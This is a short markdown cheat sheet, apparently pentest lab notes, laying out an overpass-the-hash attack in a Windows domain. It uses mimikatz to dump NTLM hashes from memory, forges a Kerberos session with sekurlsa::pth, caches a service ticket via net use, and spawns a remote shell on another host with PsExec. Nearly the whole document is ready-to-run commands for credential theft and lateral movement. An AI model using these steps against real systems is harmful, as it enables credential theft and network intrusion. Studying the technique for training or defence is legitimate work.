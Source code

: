 
# Dump a NTLM Hash to generate a TGT/TGS (To be used with Kerberos Auth)  
  
## Dump NTLM Hashes
```powershell
.\mimikatz.exe
privilege::debug  
sekurlsa::logonpasswords  
```
## Generate Kerberos ticket
```powershell
sekurlsa::pth /user:jen /domain:corp.com /ntlm:HASH /run:powershell
```
## You'll get a powershell prompt but no cached tickets yet  
```powershell
klist
```
## Perform net use and then klist again  
```powershell
net use \\files04
klist
```
  
## Then you can use PSEXEC to spawn a shell  
```powershell
.\PsExec.exe \\files04 cmd
```
